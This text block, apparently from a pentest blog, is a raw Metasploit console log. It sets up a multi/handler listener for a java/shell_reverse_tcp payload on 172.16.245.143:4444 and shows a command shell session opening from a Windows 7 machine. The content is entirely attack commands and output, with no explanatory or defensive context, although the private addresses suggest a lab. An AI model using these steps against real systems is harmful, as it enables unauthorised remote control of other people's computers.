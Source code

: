 ```txt
[i] Database already started
[i] The database appears to be already configured, skipping initialization
                                                  
  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v4.17.3-dev                          ]
+ -- --=[ 1795 exploits - 1019 auxiliary - 310 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD java/shell_reverse_tcp
PAYLOAD => java/shell_reverse_tcp
msf exploit(multi/handler) > set LHOST 172.16.245.143
LHOST => 172.16.245.143
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 172.16.245.143:4444 
msf exploit(multi/handler) > [*] Command shell session 1 opened (172.16.245.143:4444 -> 172.16.245.1:53088) at 2018-10-18 02:37:15 +0800
msf exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type             Information                                                                       Connection
  --  ----  ----             -----------                                                                       ----------
  1         shell java/java  Microsoft Windows [_ 6.1.7601] _ (c) 2009 Microsoft Corporation_ C:\Program F...  172.16.245.143:4444 -> 172.16.245.1:53088 (172.16.245.1)
```


[1]: http://mannix.top/
[2]: https://payloads.online/archivers/2017-08-17/2